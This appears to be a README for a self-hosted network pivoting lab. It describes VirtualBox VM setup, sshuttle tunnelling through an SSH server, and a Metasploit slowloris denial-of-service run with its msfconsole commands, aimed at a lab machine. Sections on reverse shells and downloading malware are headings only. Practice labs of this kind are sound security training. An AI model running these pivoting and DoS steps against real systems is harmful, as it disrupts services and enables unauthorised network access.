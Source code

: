 # NM-Lab-Network-pivoting

This is a Lab for practicing network pivoting.

## Prerequisite

### Network architecture

The following is our network settings for doing this Lab.

Local (Attacker)  
OS : MacOS or Kali Linux  
IP : 192.168.2.105 (For example)(Connect with Internet)  

VirtualBox VM1 (SSH Server)  
OS : Ubuntu server 20.04  
(Adapter1 橋接網路卡Bridge enp0s3) IP : 192.168.2.113 (For example)  
(Adapter2 內網Internal enp0s8) IP : 192.168.1.1 (For example)  

VirtualBox VM2 (Target machine)  
OS : Ubuntu server 20.04.2 or Kali Linux  
(Adapter2 內網 enp0s8) 192.168.1.100 (For example)    

VirtualBox VM3 (option)  
OS : Metasploitable2 (For running DVWA)  
(You can also install DVWA on the target machine, but it is quite a long process for installing DVWA alone.)  
(I personally take this as my guideline to install DVWA https://medium.datadriveninvestor.com/setup-install-dvwa-into-your-linux-distribution-d76dc3b80357)  

Step 0 :  
下載然後導入ubuntu server到VirtualBox  
https://ubuntu.com/download/server  

Step 1 :  
完成VirtualBox的網路介面卡設定  
確認連接內網的網路卡擁有相同的名稱  

Step 2 :  
登陸兩(三)台要連接內網的VM之後，使用  
$ ifconfig -a  
確認內網網路卡的名稱 (In our case, enp0s8)  
然後使用指令  
$ sudo ifconfig enp0s8 192.168.1.1 netmask 255.255.255.0 up  
開啟網路卡  
192.168.1.1 可以自己設定 (不同的機器要不同 192.168.1.1 192.168.1.100 in our case)  
不過注意每一次開機都要設定  

這樣即完成網路設定  
可以用ping或ifconfig指令確認  

### Enviroment & Installation

Local (Attacker)  

Ssuttle (For pivoting)  
https://github.com/sshuttle/sshuttle  
Nmap (For scanning)(option)  
https://nmap.org/book/inst-macosx.html  
Metasploit (For using slowloris DOS attack exploit module)  
https://www.metasploit.com    

VirtualBox VM1 (SSH Server)  

ssh service need to be install  
http service (Apache web service) need to be install  
root account for sshuttle  
normal user account for port forwarding  

VirtualBox VM2 (Target machine)  

ssh service need to be install  
http service (Apache web service) need to be install  

## Ways of Pivoting

### sshuttle

Open terminal  
$ sshuttle -r user@192.168.2.113 192.168.1.0/24  
Need root privilege for both local and the ssh server  

### dynamic port forwarding


### reverse remote port forwarding


## Ways of Attack

### DOS

Open terminal  
Run metasploitable  
Somewhere in the /opt/metasploit-framework/bin/ if you are using MacOS (High Sierra) like me  
$ ./msfconsole  
(Some configurations if first time use)  
msf6 > search slowloris  
msf6 > use auxiliary/dos/http/slowloris  
msf6 auxiliary(dos/http/slowloris) > options  
msf6 auxiliary(dos/http/slowloris) > set sockets 200 (the number doesn't really matter)  
msf6 auxiliary(dos/http/slowloris) > set rhost 192.168.1.100  
msf6 auxiliary(dos/http/slowloris) > run  

Now you should see it working !!!  

可以在target machine上下指令確認有沒有被DOS  
$ systemctl status  

### reverse shell


### downloading other malwares
